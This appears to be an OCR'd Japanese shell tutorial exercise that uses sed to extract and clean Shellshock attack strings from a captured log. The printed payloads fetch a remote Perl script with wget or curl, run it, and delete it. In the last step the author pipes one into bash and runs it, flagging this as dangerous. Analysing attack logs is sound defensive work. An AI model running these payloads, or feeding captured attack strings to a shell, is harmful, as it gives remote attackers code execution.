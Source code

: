 ###Q7-1 コードを抽出###<br />
ueda\@tencore:~/tmp/danger$ cat danger_log | sed 's/^.*()/()/'<br />
###Q7-2 コードの掃除###<br />
ueda\@tencore:~/tmp/danger$ cat danger_log | sed 's/^.*()/()/' |<br />
 sed 's/\\\\&quot;/&quot;/g' | sed 's/\\\\\\\\/\\\\/g' | sed 's/&quot;$//'<br />
...<br />
() { :;};/usr/bin/perl -e 'print &quot;Content-Type: text/plain\\r\\n\\r\\nXSUCCESS!&quot;;system(&quot;wget http://192.168.144.163/guide/lx.pl -O /tmp/lx.pl;curl -O /tmp/lx.pl http://192.168.144.163/guide/lx.pl;perl /tmp/lx.pl;rm -rf /tmp/lx.pl*&quot;);'<br />
() { :;};/usr/bin/perl -e 'print &quot;Content-Type: text/plain\\r\\n\\r\\nXSUCCESS!&quot;;system(&quot;wget -q http://192.168.63.71/android.txt -O /tmp/android.txt;perl /tmp/android.txt;rm -rf /tmp/android*&quot;);'<br />
###Q7-3 コードの実行（危ない！）###<br />
ueda\@tencore:~/tmp/danger$ tail -n 1 danger_log | sed 's/^.*()/()/' |<br />
 sed 's/\\\\&quot;/&quot;/g' | sed 's/\\\\\\\\/\\\\/g' | sed 's/&quot;$//' |<br />
 sed 's/.........//' | bash -vx<br />
/usr/bin/perl -e 'print &quot;Content-Type: text/plain\\r\\n\\r\\nXSUCCESS!&quot;;system(&quot;wget -q http://192.168.63.71/android.txt -O /tmp/android.txt;perl /tmp/android.txt;rm -rf /tmp/android*&quot;);'<br />
+ /usr/bin/perl -e 'print &quot;Content-Type: text/plain\\r\\n\\r\\nXSUCCESS!&quot;;system(&quot;wget -q http://192.168.63.71/android.txt -O /tmp/android.txt;perl /tmp/android.txt;rm -rf /tmp/android*&quot;);'<br />
Content-Type: text/plain<br />
<br />
XSUCCESS!<br />
（wgetが失敗するのでCtrl+cで出る。）<br />
[/bash]<br />
<br />
<br />


